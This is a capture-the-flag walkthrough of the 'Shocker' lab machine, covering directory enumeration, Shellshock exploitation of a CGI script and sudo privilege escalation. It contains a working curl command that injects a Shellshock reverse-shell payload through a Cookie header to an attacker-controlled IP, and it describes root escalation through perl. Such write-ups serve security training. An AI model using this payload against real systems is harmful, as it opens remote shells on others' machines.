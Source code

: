 # Shocker Write Up

![Machine Information](./info_card.png)

## Initial Enumeration

As always, we start with a nmap scan. The results for this box are pretty short with only two services running: http and ssh.

![Nmap Results](./nmap.png)

No immediate exploits came up when searching the versions of apache or openssh, so we'll continue on and enumerate the web service. going directly to port 80 in our browser doesn't bring up anything interesting, just a page with a little text and an image:

![](./webpage.png)

With as always with web applications, we start up a directory buster to see what else is hiding in there. I'll use the following command for our initial search:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x html,php,txt -t 50
```

![Gobuster Results](./initial_gobuster.png)

Everything in here looks pretty standard, but `/cgi-bin` is definitely something we want to check out. This is a directory where sysadmins can place scripts to be executed. That means we could find php, python, bash, etc scripts in here that we could abuse. Lets dig deeper into this directory with another gobuster scan, this time with a more extensive extension check.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x py,sh,php,js -t 50
```

![CGI-Bin Gobuster Results](./cgi_gobuster.png)

If we curl the url for `user.sh` we get the following:

![Curling user.sh](./user_sh.png)

## Exploitation 

Because this box is rated as easy, there is a shell script in the `cgi-bin` directory, **and** the name is `shocker` shellshock is a good bet. We can test this by adding a malicious HTTP Header with curl and execute a reverse shell:

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.12/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

![Catching Reverse Shell](./reverse.png)

This gives a user shell and we are able to get the `user.txt` flag. Now time for some privesc.

{% hint style="info" %}
If you want to learn more about shellshock, this was a great and quick read: https://fedoramagazine.org/shellshock-how-does-it-actually-work/
{% endhint %}

## Privilege Escalation

As would be expected from a box rated easy, the path to root is quite simple. As with every box, the first thing I do is run `sudo -l` to see if our current user has sudo access **without** specifying a password. Lo and behold, we strike gold:

![Password-less Sudo Permissions](./sudo.png)

Using the perl interpreter with sudo access, we can start a `/bin/bash` process as the root user and obtain the root flag:

![Escalating to Root](./root.png)

